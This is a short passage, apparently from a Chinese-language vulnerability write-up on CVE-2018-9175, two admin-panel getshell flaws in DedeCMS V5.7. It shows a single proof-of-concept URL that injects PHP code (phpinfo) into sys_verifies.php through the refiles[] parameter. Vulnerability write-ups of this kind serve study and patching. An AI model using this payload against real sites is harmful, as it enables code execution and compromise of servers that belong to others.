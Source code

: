 因为包含是在同一个文件，所以直接输入

    http://0-sec.org/dede/sys_verifies.php?action=getfiles&refiles[]=123&refiles[]=\%22;phpinfo();die();//

![](./resource/(CVE-2018-9175)DedecmsV5.7后台的两处getshell/media/rId29.png)
